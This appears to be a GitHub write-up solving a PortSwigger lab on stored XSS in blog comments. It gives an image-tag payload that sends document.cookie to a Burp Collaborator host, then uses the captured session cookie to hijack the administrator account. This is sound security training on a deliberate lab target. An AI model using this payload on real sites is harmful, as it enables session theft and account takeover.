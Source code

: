 ## Lab Description :


![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/2111f083-5fc7-4a9e-be03-80e7a41c76eb)


## Solution :

From what I read on the lab’s description, the vulnerability is in the blog comments function. So, let’s take a look at the comment function.

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/a8715b70-04e9-4e01-920a-89522c4d1178)

Let’s check if either of them is vulnerable to XSS by using a simple payload:

> javascript code to make HTTP request to external domain.

>  javascript has methods and API to make HTTP requests.

 So the payload will be
 
 ```js
<img src=x onerror=this.src='http://domain/?'+document.cookie;>
```

we willl use `burp collaborator` to generate a domain name for us then we that domain name in our xss payload.

Go to burp  collaborator window and copy the  collaborator payload ie our domain.

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/52294b9c-f23d-4228-a3b8-38960fcca153)

Then go and press `poll now` collaborator.

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/b953e58a-fbcb-43c4-aa20-cc19dc70bf03)

As we see there are a few http interactions i choose any one of the http requests and click on `request to collaborator` tab.

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/6f368385-5ef2-46c3-bf94-946f10dbcfb7)

Looking at the get request we see a `url` parameter called `session` and its value  is the session cookie of the victim user which was captured and sent to the burp collaborator by our xss payload.

session cookie value=`W6HvkaYQcVhLZ45KZ93P8oZSL0OEqd9g`

Lets copy the session value and and go to the web browser and turn on `burop intercept` and then click on my account.

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/4d68af5c-a725-4f15-a610-a3020229b658)

change the coookie value with session cookie value what we have.

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/811e931e-fb8b-4c44-a662-5893660bf6af)

Now we can see the web application saying that your `username is:administrator`

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/3c2eb2e2-9340-46f5-831f-f077fb597377)

Lab solved.

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/86414c70-3068-4ae0-ade6-a9905ece9b17)






